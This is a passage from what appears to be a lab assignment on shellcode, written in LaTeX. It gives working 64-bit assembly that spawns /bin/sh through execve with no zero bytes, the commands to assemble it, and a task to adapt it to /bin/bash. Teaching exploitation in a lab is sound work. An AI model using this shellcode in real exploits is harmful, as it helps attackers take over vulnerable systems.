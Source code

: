 \begin{lstlisting}[caption={A 64-bit shellcode \texttt{mysh64.s}}]
  section .text
  global _start
    _start:
      ; The following code calls execve("/bin/sh", ...)
      xor  rdx, rdx       ; 3rd argument (stored in rdx)
      push rdx
      mov rax,'/bin//sh'  
      push rax
      mov rdi, rsp        ; 1st argument (stored in rdi)
      push rdx
      push rdi
      mov rsi, rsp        ; 2nd argument (stored in rsi)
      xor  rax, rax
      mov al, 0x3b        ; execve()
      syscall
\end{lstlisting}

We can use the following commands to compile the assemble code into
64-bit binary code: 

\begin{lstlisting}
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
\end{lstlisting}

\paragraph{Task.}
Repeat Task 1.b for this 64-bit shellcode. Namely, 
instead of executing \texttt{"/bin/sh"}, we need to execute
\texttt{"/bin/bash"}, and we are not allowed to use
any redundant \texttt{/} in the command string, 
i.e., the length of the command must be 9 bytes (\texttt{/bin/bash}).
Please demonstrate how you can do that.
In addition to showing that you can get a bash shell, you also
need to show that there is no zero in your code. 

\section{Submission}

\seedsubmission













